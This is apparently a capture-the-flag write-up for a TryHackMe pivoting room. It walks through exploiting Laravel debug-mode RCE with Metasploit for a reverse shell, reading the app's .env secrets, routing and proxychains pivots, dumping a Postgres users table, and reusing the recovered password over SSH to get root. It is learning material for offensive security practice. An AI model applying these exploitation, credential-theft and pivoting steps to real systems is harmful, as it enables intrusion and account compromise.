

# Dock The Halls - Pivoting <!-- markdownlint-disable-line MD022 MD025 -->
{: .no_toc}

## Table of content <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## Description

A room with the following learning objectives:

- Using Metasploit modules and Meterpreter to compromise systems
- Network Pivoting
- Post exploitation

## Flow



## nmap  <!-- markdownlint-disable-line MD022 -->

```console
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 05:39 EST
Nmap scan report for 10.10.199.246
Host is up (0.054s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Curabitur aliquet, libero id suscipit semper

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.90 seconds
```

- port 80: open

## Browser

See:

- Laravel v8.26.1
- PHP v7.4.30

## serchsploit

```console
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Aimeos Laravel ecommerce platform 2021.10 LTS - 'sort' SQL injection                       | php/webapps/50538.txt
Laravel - 'Hash::make()' Password Truncation Security                                      | multiple/remote/39318.txt
Laravel 8.4.2 debug mode - Remote code execution                                           | php/webapps/49424.py
Laravel Log Viewer < 0.13.0 - Local File Download                                          | php/webapps/44343.py
Laravel Nova 3.7.0 - 'range' DoS                                                           | php/webapps/49198.txt
PHP Laravel 8.70.1 - Cross Site Scripting (XSS) to Cross Site Request Forgery (CSRF)       | php/webapps/50525.txt
PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution | linux/remote/47129.rb
UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                                  | php/webapps/48166.txt
UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload                         | php/webapps/46389.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Metaspliot Framework Console

Some usefull commands:

- list sessions `sessions`
- show options `show options`
- show module infos `info`
- show jobs `jobs`
- set option `set rhosts 10.10.114.115`
- run the exploit `run` / `exploit`
- upgrade session to 'meterpreter session' `sessions -u -1`
- in meterpreter
  - get system info `sysinfo`
  - resolve hostname to ip `resolve remote_service`
  - setup route`route add {ip address}\32 {meterpreter session ID}`
- open default shell of host via meterpreter `shell`
- interact with a session `sessions -i session_id`
- list current routes `route`

- use `exploit/multi/php/ignition_laravel_debug_rce` to open a reverse bash
- / contains '.dockerenv' - were in a docker container - "172.17.0.1" potentially container host
- check out what the environment variables for the web server are - `cat /var/www/.env`

```console
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:NEMESCXelEv2iYzbgq3N30b9IAnXzQmR7LnSzt70rso=
APP_DEBUG=true
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres
...
```

- `meterpreter > resolve webservice_database`

```console
Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

- `bg` to exit meterpreter
- setup route `route add 172.28.101.51\32 5`
- setup route `route add 172.17.0.1\32 5`

## Time to get to that Postgres DB

In msfconfig

- `search postgres`
- `use auxiliary/scanner/postgres/postgres_schemadump` - Postgres Schema Dump exploit
- set rhosts
- `exploit`:

```console
Host: 172.28.101.51 
 Port: 5432 
 ====================

---
- DBName: postgres
  Tables:
  - TableName: users_id_seq
    Columns:
    - ColumnName: last_value
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: log_cnt
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: is_called
      ColumnType: bool
      ColumnLength: '1'
  - TableName: users
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
    - ColumnName: username
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: password
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: created_at
      ColumnType: timestamp
      ColumnLength: '8'
    - ColumnName: deleted_at
      ColumnType: timestamp
      ColumnLength: '8'
  - TableName: users_pkey
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
```

> has username column

- `use auxiliary/admin/postgres/postgres_sql`
- set rhosts and database = "postgres"
- `exploit`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed
```

> we can run a custom query against the DB

- `set sql "select * from users"`
- `run`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

> we got santa's credentials  
> ... ssh maybe?  
> ... docker host maybe?  

## Scan the docker host

### Either with metasploit <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

- `search portscan`
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 172.17.0.1` and `run` - 22 & 80 open

### Or use SOCKS Proxy <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

- `search socks` & `use 1` & `exploit`

> We can now proxy calls from localhost (kali) using the defined metasploit routes to relay connections

- Test proxy: `curl --proxy socks5://127.0.0.1:1080 http://172.17.0.1`

> returns the html content seen @ 10.10.199.246

## Proxychains

- `sudo nano /etc/proxychains4.conf`
- add `socks5  127.0.0.1 1080` to the end and save

> Now make any call with `proxychains` infront of it

- `proxychains curl http://172.17.0.1` or
- `proxychains nmap -F -sV -sT 172.17.0.1`:

```console
Nmap scan report for 172.17.0.1
Host is up (0.065s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

> Port 22 is open on the docker host. Surely santa reused his credentials ;)

## Connect via SSH

### Either using proxychains <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

- `proxychains ssh santa@172.17.0.1` & pw: `p4$$w0rd` -> root
- `ls` & `cat root.tx`:
`THM{47C61A0FA8738BA77308A8A600F88E4B}`

### Or Metasploit <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

- `search ssh_login` & `use 0`
- set 'rhosts', 'username' & 'password' & `exploit`

```console
[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa:p4$$w0rd' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 6 opened (10.8.27.147-10.10.114.115:34142 -> 172.17.0.1:22) at 2022-12-12 11:55:00 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- checkout new sessions `sessions`

```console
Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         shell cmd/unix                                   10.8.27.147:4444 -> 10.10.114.115:51078 (10.10.1
                                                             14.115)
  5         meterpreter x86/linux  www-data @ 172.28.101.50  10.8.27.147:4433 -> 10.10.114.115:52494 (172.28.
                                                             101.50)
  7         shell linux            SSH kali @                10.8.27.147-10.10.114.115:34144 -> 172.17.0.1:22
                                                              (172.17.0.1)
```

> we now have an open session ID = 7

- open session `sessions -i 7`
- `id` :

```console
uid=0(root) gid=0(root) groups=0(root)
```

> WE GOT ROOT

---
